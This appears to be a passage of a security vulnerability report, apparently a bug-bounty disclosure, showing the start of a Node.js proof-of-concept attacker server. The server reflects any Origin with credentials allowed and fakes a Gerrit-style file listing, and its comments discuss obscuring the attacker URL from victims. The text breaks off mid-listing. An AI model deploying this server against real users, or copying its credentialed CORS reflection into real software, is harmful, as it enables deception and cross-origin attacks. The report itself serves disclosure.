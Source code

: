 # The report :)

Automatically assigned P2 by "google magic", later given S2 after human review.

server.js

```js
const http = require('http');
const https = require('https');
const url = require('url');
const fs = require('fs');

const port = 1338;

const app = (req, res) => {
  try {
    // Use this to avoid an error modal about Gerrit account missing.
    // We could leave modal to distract from the main error that shows the attacker URL.
    // Attacker URL could also be obscured further.
    console.info('Request origin:', req.headers.origin);
    res.setHeader('Access-Control-Allow-Origin', req.headers.origin);
    res.setHeader('Access-Control-Allow-Credentials', true);
  } catch (e) {
    console.info('Error');
  }

  res.statusCode = 200;

  // Emulate a file listing (optional but errors look bad)
  const dirResponse = {
    id: 'b939af01ca07f0caa68fb8d264a68b91e86efe70',
    entries: [
      {
        mode: 33188,
        type: 'blob',
        id: '54c90ede642a93580a98eb4ed6e821749b04a989',
        name: '.gitignore'
      },
      {
        mode: 33188,
        type: 'blob',
        id: 'daebd5231a3ec9aafd58e6f4075f3b63e4c3bd53',
        name: 'Changes.md'
      },
      {
        mode: 33188,
        type: 'blob',
        id: '957da92f63926bf6013845f0ff0602d1f1620e0a',
        name: 'CleanSpec.mk'
      },
      {
        mode: 33188,
        type: 'blob',
        id: '74b54fadd522b739407d7d71b4ea3503fc666aeb',
        name: 'Deprecation.md'
      },
      {
        mode: 33188,
        type: 'blob',
        id: '44781a70880412fdd9007cc2bec16a4b09924c6d',
        name: 'METADATA'
      },
      {
```
